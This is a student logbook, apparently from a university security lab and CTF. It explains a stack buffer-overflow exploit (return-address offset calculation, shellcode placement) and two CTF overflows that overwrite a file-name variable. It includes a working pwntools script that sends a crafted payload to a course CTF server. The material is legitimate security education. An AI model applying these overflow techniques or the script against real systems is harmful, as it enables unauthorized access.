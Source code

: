 ## Task 1

We ran both binaries and as expected in both cases a shell was invoked.

[Logbook 5 - Task 1](/screenshots/logbook5-task1.png)

## Task 2

We successfully compiled the file. First using the commands given and then using the makefile.

[Logbook 5 - Task 2](/screenshots/logbook5-task2.png)

## Task 3

After debugging the program as suggested, we obtained the distance between the buffer's starting position and the position of the ebp (0xFFFFCA48-0xFFFFC9DC=0x6C=108).

[Logbook 5 - Task 3 - Part 1](/screenshots/logbook5-task3-1.png)

We chose the last bytes to place the shell code (start=517-length of the shell code).

As suggested, to get the buffer address, we included a printf in the stack.c code.

The offset is 108+4 because the return address is always at ebp+4.

To get our new return address, we added our offset (108 + 4) to the address of the buffer, plus 4 bytes (the space needed to write our 32 bit address). We could've added more bytes, since our shell code is located at the end of the 517 bytes.

[Logbook 5 - Task 3 - Part 2](/screenshots/logbook5-task3-2.png)

After running our exploit we ran the stack-L1 program and verified that the exploit had worked because the shell was invoked (see attached image).

[Logbook 5 - Task 3 - Part 3](/screenshots/logbook5-task3-3.png)

## CTF

### Challenge 1

First we analysed the program, and found that a 28 character long string was being written into a string variable with an allocated memory of only 20 characters. By inputting 20 random characters followed by "flag.txt", we were able to overwrite the contents of the meme_file variable and consequently access the contents of the flag.txt file.

### Challenge 2

The difference from the 1st challenge, was that in the second challenge, changing the value of meme_file variable wasn't enough. First we needed to overwrite a flag variable so that the content of the flag was 0xfefc2122, and only after that, could we overwrite the meme_file variable with the path to the flag file (flag.txt). In order to do this we wrote a python script that creates a 32 byte array (32 is the length scanned by the program), placed the flag after the 20 bytes used to fill the buffer and immediately after we placed the flag's path ("flag.txt").

Here is the script we wrote:

```python
#!/usr/bin/python3
from pwn import *
import sys

N=32
content = bytearray(0x0 for i in range(N))
number  = 0xfefc2122
content[20:24]  =  (number).to_bytes(4,byteorder='little')
content[24:32] = ("flag.txt").encode('latin-1')
DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(content)
r.interactive()
```